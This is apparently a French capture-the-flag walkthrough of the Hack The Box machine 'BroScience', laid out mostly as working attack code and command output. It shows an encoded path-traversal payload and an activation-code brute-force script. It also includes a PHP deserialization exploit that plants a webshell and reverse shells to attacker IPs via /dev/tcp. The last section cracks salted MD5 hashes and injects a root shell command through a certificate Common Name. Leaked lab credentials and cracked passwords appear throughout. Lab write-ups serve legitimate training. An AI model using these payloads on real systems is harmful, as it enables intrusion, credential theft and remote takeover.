






---

# Enumération
Ports TCP ouverts
```bash
22/tcp  open  ssh                                                                                                                                                                                                                          
80/tcp  open  http                                                                                                                                                                                                                         
443/tcp open  https      
```


# Service WEB
## Port 80
La banière du serveur retourne : `Apache/2.4.54 (Debian) Server at broscience.htb Port 80`
Toutes les pages du serveur semblent être redirigées vers la même URL sur le port 443 (HTTPS)

```
feroxbuster -w "/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt" -t 50  --auto-tune -u http://$TARGET_VHOST/ -s '200,204,302,307,308,401,403,405,404' --dont-filter 
```

Seul certaines url mal formées ne semble pas déclencher la redirection :
```
http://broscience.htb/http%3A%2F%2Fyoutube
```
Mais cela ne semble a première vue pas exploitable

## Port 443
La banière du serveur retourne : `Apache/2.4.54 (Debian) Server at broscience.htb Port 443`

### Dossiers intéressants 
```
feroxbuster -w "/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt" -t 50  --auto-tune -u https://$TARGET_VHOST/ --filter-status 301,404 -k --add-slash --no-recursion 
```


Parmis les dossiers énumérés, le dossier `includes` contient des fichiers intéresant. Il ne sont toutefois pas visualisables mais nous chercherons à les lire par la suite.


On découvre que le dossier `images` contient l'ensemble des images du site


La documentation d'apache 2.4 est également hébergée localement mais ne présente aucun intérêt :
https://broscience.htb/manual/



### Découverte manuelle du site
##### Fichier /includes/img.php
LFI potentielle via le paramètre path :
- Paramètre légitime :`/includes/img.php?path=deadlift.png`
- Protection présente retournant :
```HTTP/1.1 200 OK
Date: Wed, 15 Feb 2023 22:12:48 GMT
Server: Apache/2.4.54 (Debian)
Content-Length: 30
Connection: close
Content-Type: text/html; charset=UTF-8

<b>Error:</b> Attack detected.
```
- Motifs déclenchants ce blocage :
	- `../`
	- `/etc/passwd`
- Tentatives de contournement infructueuses :
	- `..%5c`
	- null byte
	- RFI
	- `' and die(system("curl http://10.10.14.147")) or '`
	- et autre suggestions provenant de https://book.hacktricks.xyz/pentesting-web/file-inclusion


```
# découverte du compte utilisateur 'bill' disposant d'un shell sur le système 

curl -k https://broscience.htb/includes/img.php?path=%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc%252fpasswd HTTP/1.1

bill:x:1000:1000:bill,,,:/home/bill:/bin/bash
```

```
# découverte d'identifiants :
└─$ curl -k https://broscience.htb/includes/img.php?path=%252e%252e/includes/db_connect.php
<?php
$db_host = "localhost";
$db_port = "5432";
$db_name = "broscience";
$db_user = "dbuser";
$db_pass = "RangeOfMotion%777";
$db_salt = "NaCl";

```


# Découverte du code source de l'application

On énumère ensuite les quelques fichiers constituant le code source de l'application :


## Enumération des vulnérabilités
En analysant le code de l'application, nous découvrons rapidement  plusieures vulnérabilités :
- Vulnérabilité 1 : Mauvaise initialisation du générateur de nombres aléatoires responsables de la génération du code d'activation rendant possible la découverte du code d'activation
- Vulnérabilité 2 : Absence de protection concernant la désérialisation d'un cookie utilisateur rendant possible l'exécution de code arbitraire à distance.
La vulnérabilité 2 n'étant exploitable que dans la zone authentifiée du site, il faudra d'abord exploiter la vulnérabilité 1 pour obtenir une exécution de code arbitraire à distance.

## Exploitation
### Vulnérabilité 1 : Activation d'un compte de test

#### Analyse de la vulnérabilité
La fonction responsable de la génération du code d'activation lors de la création d'un compte utilisateur est la suivante :
```php
function generate_activation_code() {
	$chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
	srand(time());
	$activation_code = "";
	for ($i = 0; $i < 32; $i++) {
		$activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
	}
	return $activation_code;
}
```

Elle utilise la fonction `time()` pour initialiser le générateur de nombres aléatoires.

Cela signifit qu'en sachant à quelle heure a eu lieu la création du compte utilisateur, on peut deviner le code d'activation généré. La conséquence directe étant l'activation du compte sans posséder le code d'activation.

Etant donné que le serveur à exploiter et notre machine ne sont pas synchronisés niveau temps, on devra bruteforcer quelques codes d'activation avant et après celui correspondant à l'heure d'activation.

#### Attaque du code d'activation
```php  
<?php
    /*
        File  : guess_activation_code.php
        Usage : 
	        - Edit variables $user / $pass / $mail as desired
			- php guess_activation_code.php | ffuf -u https://broscience.htb/activate.php?code=FUZZ -w - -fr "Invalid"
    */
    $user = "reb";
    $pass = $user;
    $mail = $user . "@somewhere.org";
    function generate_activation_code($time) {
        $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
        srand($time);
        $activation_code = "";
        for ($i = 0; $i < 32; $i++) {
            $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
        }
        return $activation_code;
    }
    function print_brute_force_acivation_code($start_time, $end_time){
        for ($cur_time = $start_time ; $cur_time <= $end_time ; $cur_time++){
            $activation_code = generate_activation_code($cur_time);
            echo $activation_code . "\n";
        }
    }
  
    function register(){
        global $user, $pass, $mail;
        print "[+] Registering...";
        shell_exec("curl -v -k -X POST https://broscience.htb/register.php -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=$user&email=$mail&password=$pass&password-confirm=$pass' >> register_log" ) ;
        print "    Done";
    }
  
    function main(){
        $start_time = time();
        register();
        $end_time = time();
        print_brute_force_acivation_code($start_time-100, $end_time+100);
    }
    main();
?>
```

Au bout de quelques secondes, le compte utilisateur nouvellement créé par le script ci-dessus sera activé à l'aide de l'utilitaire `ffuf`

### Vulnérabilité 2 : Exécution de code à distance
#### Analyse de la vulnérabilité
##### Absence de vérification dans la déserialisation d'un objet PHP contenu dans un cookie utilisateur

La partie authentifiée du site propose un système de thème. Le thème devant être affiché est paramétré à l'aide d'un cookie utilisateur. Ce cookie contient une version sérializée d'un objet PHP indiquant le thème à utiliser pour le rendu de la page.

Lorsqu'une page est affichée dans la section authentifiée du site, le cookie est désérialisé sans aucun mécanisme de vérification dans la fonction `get_theme()`  du fichier `/includes/utils.php`:
```php
function get_theme() {
    if (isset($_SESSION['id'])) {
        if (!isset($_COOKIE['user-prefs'])) {
            $up_cookie = base64_encode(serialize(new UserPrefs()));
            setcookie('user-prefs', $up_cookie);
        } else {
            $up_cookie = $_COOKIE['user-prefs'];
        }
        $up = unserialize(base64_decode($up_cookie));
        return $up->theme;
    } else {
        return "light";
    }
}
```
##### Classes utilisables pour réaliser une inclusion de fichier à distance (RFI)
La présence dans le code php des 2 classes suivantes rendent possible la création d'un fichier contenant du code php menant à une exécution de code arbitraire à distance
```php
class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");    // <==== propriété 'imgPath' controllable
        fwrite($f, file_get_contents($tmp)); // <==== propriété 'tmp' controllable
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
```


#### Exploitation
On crée puis exécute ce script qui générera un cookie valide qui une fois désérialisé, créera le fichier `$payload_path ` qui contiendra `$payload` :
```php
<?php
    // code vulnérable unserialize(base64_decode($up_cookie));

    // Attaque : créer un cookie valide qui une fois déserialisé pourra stocker un webshell dans un dossier de notre choix
    // classes vulnérables utilisées :
    class Avatar {
        public $imgPath;
    
        public function __construct($imgPath) {
            $this->imgPath = $imgPath;
        }
    
        public function save($tmp) {
            $f = fopen($this->imgPath, "w");
            fwrite($f, file_get_contents($tmp));
            fclose($f);
        }
    }
    class AvatarInterface {
        public $tmp;
        public $imgPath; 
    
        public function __wakeup() {
            $a = new Avatar($this->imgPath);
            $a->save($this->tmp);
        }
    }

    function println(string $x): void {
        echo $x, PHP_EOL;
    }
    
    // création de l'objet à serializer
    $payload_path = "/var/www/html/rebrec2.php";
    $rfi = 'http://10.10.24.179/rebrec-rs.php';  
  
    $payload = '<?php system($_GET["cmd"]);';
    $b64_payload = base64_encode($payload);
    $rfi = 'php://filter/convert.base64-decode/resource=data://text/plain,' . $b64_payload;
    

    $obj = new AvatarInterface();
    $obj->tmp = $rfi;
    $obj->imgPath = $payload_path;
    
    $up_cookie = base64_encode(serialize($obj));
    println('Cookie à "prefs" à mettre dans un une requête GET /index.php après avoir été authentifié :');
    println($up_cookie);
    println('');
    unserialize(base64_decode($up_cookie));
    println(file_get_contents($payload_path));
    
?>
```

On insère ensuite ce cookie dans une requête interceptée à l'aide de Burp :


# Obtention d'un shell

Pour une raison non maîtrisée, les reverse shell PHP ne semblaient pas fonctionner correctement, c'est pourquoi le code présenté ci-dessus n'est un "Webshell" très basique.
On l'utilise pour obtenir un reverse shell de la manière suivante :

- On crée un script `revshell.sh` qui contiendra notre reverse shell à exécuter :
```bash
$ cat revshell.sh                                                
#!env sh
/bin/sh -i >& /dev/tcp/10.10.14.179/1337 0>&1
```
- On le rend téléchargeable en lancant un serveur web depuis le dossier contenant ce script à l'aide de la commande `python -m http.server 80`
- On le télécharge via le webshell dans le dossier courant qui dispose d'un droit en écriture pour www-data :
```
curl -X GET http://broscience.htb/rebrec2.php?cmd=wget%20http://10.10.14.179/revshell.sh 
```

- On l'exécute après avoir lancé localement un listener à l'aide de la commande `rlwrap nc -lnvp 1337` :
```
curl -X GET http://broscience.htb/rebrec2.php?cmd=bash%20./revshell.sh 
```

```
id                                                                                                        
uid=33(www-data) gid=33(www-data) groups=33(www-data)   
```

# Elevation de privilèges

###################################################################
# ANCIENNE RESOLUTION ERRONNEE
###################
Après avoir téléchargé le script `lse.sh` puis l'avoir exécuté avec la commande : `bash ./lse.sh -l1 p1`, on découvre que le shell `bash` est setuid root :
```
[!] fst020 Uncommon setuid binaries........................................ yes!                                      
---                                                                                                                   
/usr/bin/vmware-user-suid-wrapper                                                                                     
/usr/bin/bash                                                                               
```

Il ne reste plus qu'à obtenir les privilèges root et afficher les flags :
```
$ bash -p                                                                                                             
id                                                                                                                    
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)                                                    
cat /root/root.txt                                                                                                    
7eaf6db3********37bd4f15830e0                                                                                      
cat /home/bill/user.txt                                                                                               
0d8eadfb********617b5debcecbfe54                      
```


#####################################
# NOUVELLE RESOLUTION PRIVESC
#####################################

On cherche dans la base de donnée si elle ne contient pas des informations intéressantes.

Les identifiants de connexions étaient stockés dans le fichier `include/db_connect.php`.

On utilise donc la commande suivante :

```
psql -h localhost -U dbuser -d broscience 
```

On liste les tables disponibles avec
```
\dt
```

Puis on liste les enregistrements de la table `users` :

```
select * from users;
 id |   username    |             password             |            email             |         activation_code          | is_activated | is_admin |         date_created          
----+---------------+----------------------------------+------------------------------+----------------------------------+--------------+----------+-------------------------------
  1 | administrator | 15657792073e8a843d4f91fc403454e1 | administrator@broscience.htb | OjYUyL9R4NpM9LOFP0T4Q4NUQ9PNpLHf | t            | t        | 2019-03-07 02:02:22.226763-05
  2 | bill          | 13edad4932da9dbb57d9cd15b66ed104 | bill@broscience.htb          | WLHPyj7NDRx10BYHRJPPgnRAYlMPTkp4 | t            | f        | 2019-05-07 03:34:44.127644-04
  3 | michael       | bd3dad50e2d578ecba87d5fa15ca5f85 | michael@broscience.htb       | zgXkcmKip9J5MwJjt8SZt5datKVri9n3 | t            | f        | 2020-10-01 04:12:34.732872-04
  4 | john          | a7eed23a7be6fe0d765197b1027453fe | john@broscience.htb          | oGKsaSbjocXb3jwmnx5CmQLEjwZwESt6 | t            | f        | 2021-09-21 11:45:53.118482-04
  5 | dmytro        | 5d15340bded5b9395d5d14b9c21bc82b | dmytro@broscience.htb        | 43p9iHX6cWjr9YhaUNtWxEBNtpneNMYm | t            | f        | 2021-08-13 10:34:36.226763-04
  6 | aze1          | 5cd6546fa55766a2210b9bb796127a2e | aze1@aze.fr                  | GqrsXMa5DfoEPGmy7MvyjZSF5yJmCUIU | t            | f        | 2023-04-06 15:49:55.735886-04
```

On enregistre ce contenu dans le fichier `raw`

La génération du mot de passe est détaillée dans les fichiers suivants :
- db_connect.php : on y trouve la valeur du salt : `$db_salt = "NaCl"`.
- register.php : on y trouve que le mot de passe stocké en base est un hash MD5 de la concaténation du Salt et du mot de passe.

On formatte donc le fichier raw pour qu'il soit interprettable par john :

```
$ awk -F '|' '{print $2":"$3"$NaCl"}' raw | sed 's/ //g' | tee hashes
administrator:15657792073e8a843d4f91fc403454e1$NaCl
bill:13edad4932da9dbb57d9cd15b66ed104$NaCl
michael:bd3dad50e2d578ecba87d5fa15ca5f85$NaCl
john:a7eed23a7be6fe0d765197b1027453fe$NaCl
dmytro:5d15340bded5b9395d5d14b9c21bc82b$NaCl
aze1:5cd6546fa55766a2210b9bb796127a2e$NaCl
```

On crack enfin nos hashes en précisant le format de génération des hashes :
```
$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=dynamic='md5($s.$p)' hashes 
Using default input encoding: UTF-8
Loaded 6 password hashes with no different salts (dynamic=md5($s.$p) [256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
iluvhorsesandgym (bill)     
Aaronthehottest  (dmytro)     
2applesplus2apples (michael)     
```

On se connecte ensuite en tant que "bill" via SSH et on récupère le Flag utilisateur.


Privesc

On découvre le script `/opt/renew_cert.sh` qui est vulnérable à une injection de commande bash.
A première vue, ce script n'est pas exécuté dans cron ou tout du moins, pas depuis un emplacement sur lequel nous avons des droits de lecture.

On vérifie s'il est appelé autrement via l'outil `pspy`.

Au bout d'une minute, on découvre qu'il est effectivement appelé par l'utilisateur root avec en paramètre un certificat situé dans `/home/bill/Certs/broscience.crt`

Après analyse du script vulnérable on détermine les éléments permettant de déclencher une exécution de code arbitraire :
- il faut un certificat expirant dans moins de 24h
- il faut que le `Common Name` contienne l'injection de commande.

Après quelques test, facilités via le lancement du script à l'aide de `bash -x`, on on arrive à créer une payload fonctionnelle.


`$(bash -c 'bash -i >& /dev/tcp/10.10.14.34/1338 0>&1'`
